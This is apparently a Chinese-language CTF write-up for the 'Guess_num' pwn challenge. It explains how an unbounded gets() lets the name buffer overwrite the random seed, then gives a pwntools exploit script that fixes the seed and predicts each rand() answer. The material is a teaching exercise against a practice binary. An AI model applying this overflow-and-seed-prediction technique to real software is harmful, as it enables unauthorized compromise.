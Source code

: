 ```yaml
---
layout: post
title: Guess_num
category: pwn
tags: [pwn]
---
```

## Guess_num

题目不难，但是学到了个新姿势 **cdll.LoadLibrar** ，可以用它来加载dll或者libc。

### ida分析

![img](/assets/images/2019-7-2-Guess_num/guess_num_1.png)

名字v11和seed相差32(0x30-0x10)，而gets又没有限制，故可以将seed覆盖。

### Exp
```python
from pwn import *
from ctypes import *  
 
#p = remote('','')
p = process('./guess_num') 
elf = ELF('./guess_num')
 
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
 
payload = 'A'*32  
payload += p64(1)   #覆盖种子为1
p.recvuntil('name:')
p.sendline(payload)  
 
libc.srand(1)  #本地设置种子为一

for i in range(10):
        num = str(libc.rand()%6+1)
        p.recvuntil('number:')
        p.sendline(num)
 
p.interactive()
```